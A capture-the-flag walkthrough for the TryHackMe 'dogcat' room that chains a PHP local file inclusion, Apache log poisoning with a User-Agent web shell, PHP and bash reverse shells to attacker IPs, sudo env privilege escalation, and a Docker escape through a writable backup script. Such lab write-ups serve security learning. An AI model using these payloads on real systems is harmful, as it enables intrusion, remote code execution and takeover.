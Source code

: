 # dogcat

**Room Link:** [https://tryhackme.com/room/dogcat](https://tryhackme.com/room/dogcat)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (393).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



**Browser**

```
http://10.10.228.190/?view=php://filter/convert.base64-encode/resource=dog
```

**Kali**

```
echo "PGltZyBzcmM9ImRvZ3MvPD9waHAgZWNobyByYW5kKDEsIDEwKTsgPz4uanBnIiAvPg0K" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (394).png" alt=""><figcaption></figcaption></figure>

**Browser**

```
http://10.10.228.190/?view=php://filter/convert.base64-encode/resource=dog/../index
```

**Kali**

```
echo "PCFET0NUWVBFIEhUTUw+CjxodG1sPgoKPGhlYWQ+CiAgICA8dGl0bGU+ZG9nY2F0PC90aXRsZT4KICAgIDxsaW5rIHJlbD0ic3R5bGVzaGVldCIgdHlwZT0idGV4d
C9jc3MiIGhyZWY9Ii9zdHlsZS5jc3MiPgo8L2hlYWQ+Cgo8Ym9keT4KICAgIDxoMT5kb2djYXQ8L2gxPgogICAgPGk+YSBnYWxsZXJ5IG9mIHZhcmlvdXMgZG9ncyBvciBjYXRzPC9pPgoKICAgIDxkaXY+
CiAgICAgICAgPGgyPldoYXQgd291bGQgeW91IGxpa2UgdG8gc2VlPzwvaDI+CiAgICAgICAgPGEgaHJlZj0iLz92aWV3PWRvZyI+PGJ1dHRvbiBpZD0iZG9nIj5BIGRvZzwvYnV0dG9uPjwvYT4gPGEgaHJ
lZj0iLz92aWV3PWNhdCI+PGJ1dHRvbiBpZD0iY2F0Ij5BIGNhdDwvYnV0dG9uPjwvYT48YnI+CiAgICAgICAgPD9waHAKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwgJHN1YnN0ci
kgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygkc3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICAkZXh0ID0gaXNzZXQoJF9HRVRbImV4dCJdKSA/ICRfR0VUWyJle
HQiXSA6ICcucGhwJzsKICAgICAgICAgICAgaWYoaXNzZXQoJF9HRVRbJ3ZpZXcnXSkpIHsKICAgICAgICAgICAgICAgIGlmKGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICdkb2cnKSB8fCBjb250YWlu
c1N0cigkX0dFVFsndmlldyddLCAnY2F0JykpIHsKICAgICAgICAgICAgICAgICAgICBlY2hvICdIZXJlIHlvdSBnbyEnOwogICAgICAgICAgICAgICAgICAgIGluY2x1ZGUgJF9HRVRbJ3ZpZXcnXSAuICR
leHQ7CiAgICAgICAgICAgICAgICB9IGVsc2UgewogICAgICAgICAgICAgICAgICAgIGVjaG8gJ1NvcnJ5LCBvbmx5IGRvZ3Mgb3IgY2F0cyBhcmUgYWxsb3dlZC4nOwogICAgICAgICAgICAgICAgfQogIC
AgICAgICAgICB9CiAgICAgICAgPz4KICAgIDwvZGl2Pgo8L2JvZHk+Cgo8L2h0bWw+Cg==" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (395).png" alt=""><figcaption></figcaption></figure>



**Browser**

```
http://10.10.228.190/?view=dog/../../../../etc/passwd&ext=
```

<figure><img src="../../.gitbook/assets/image (396).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (397).png" alt=""><figcaption></figcaption></figure>

**Burp**

```
GET /?view=dog/../../../../var/log/apache2/access.log&ext=&cmd=ls HTTP/1.1
Host: 10.10.129.114
User-Agent: <?php system($_GET['cmd']);?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (398).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1337
```

**Burp**

```
GET /?view=dog/../../../../var/log/apache2/access.log&ext=&cmd=php+-r+'$sock%3dfsockopen("10.10.145.14",1337)%3bexec("sh+<%263+>%263+2>%263")%3b' HTTP/1.1
Host: 10.10.129.114
User-Agent: <?php system($_GET['cmd']);?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (399).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (400).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo;fg
```

## Privilege Escalation

**Exploit:** [https://gtfobins.github.io/gtfobins/env/](https://gtfobins.github.io/gtfobins/env/)

```
sudo -l
/usr/bin/env /bin/sh -p 
```

<figure><img src="../../.gitbook/assets/image (36) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (8).png" alt=""><figcaption></figcaption></figure>

## Break out of Docker

We get a hint we're actually in a docker container

**Victim**

```
ls -lah /
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see there is a backups folder that tars the contents of /root/container since we have access to edit this file we modify the file with a reverse shell

**Victim**

```
cat /opt/backups/backup.sh
echo "sh -i >& /dev/tcp/10.10.113.93/1440 0>&1" >> /opt/backups/backup.sh
cat /opt/backups/backup.sh
```

**Kali**

```
nc -lvnp 1440
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (7).png" alt=""><figcaption></figcaption></figure>

